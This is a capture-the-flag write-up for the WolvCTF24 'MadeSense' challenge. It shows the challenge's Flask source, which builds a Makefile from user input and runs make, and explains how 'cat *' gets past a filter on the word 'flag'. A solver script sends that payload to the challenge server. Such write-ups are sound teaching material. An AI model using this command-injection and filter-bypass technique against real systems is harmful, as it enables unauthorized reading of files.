 ```python {title="source.py" lineNos=true lineNoStart=1}
        return 'no'
    if re.search(r'flag', code):
        return 'no'

    with tempfile.TemporaryDirectory() as dir:
        run_dir = Path(dir)
        write_flag(run_dir)
        generate_makefile(target_name, code, run_dir)
        sp = subprocess.run(['make'], capture_output=True, cwd=run_dir)
        return f"""
<h1>stdout:</h1>
{sp.stdout}
<h1>stderr:</h1>
{sp.stderr}
    """

app.run('localhost', 8000)
```

If we take look at the source-code it's allows to create a Makefile with a target and a command, and then runs make in a temporary directory containing a flag file. And then checks for the presence of newline characters and the string `flag` in the command to prevent from reading the flag file directly. However, it doesn't prevent from using other commands or environment variables.

One possible solution is to use the cat command with a wildcard (*) instead of the filename. This will read all files in the directory, including the flag file.

<br>
<div style="text-align:center">
<img src="https://raw.githubusercontent.com/nopedawn/CTF/main/WolvCTF24/MadeSense/payload.png" width="400">
</div>
<br>

<br>
<div style="text-align:center">
<img src="https://raw.githubusercontent.com/nopedawn/CTF/main/WolvCTF24/MadeSense/response.png" width="400">
</div>
<br>

Final solver automation:

```python {title="solver.py" lineNos=true lineNoStart=1}
import requests
import re

data = {
    'name': 'target',
    'code': 'cat *'
}

response = requests.post('https://madesense-okntin33tq-ul.a.run.app/make', data=data)
flag = re.findall(r'wctf{.*}', response.text)

print(flag)
```
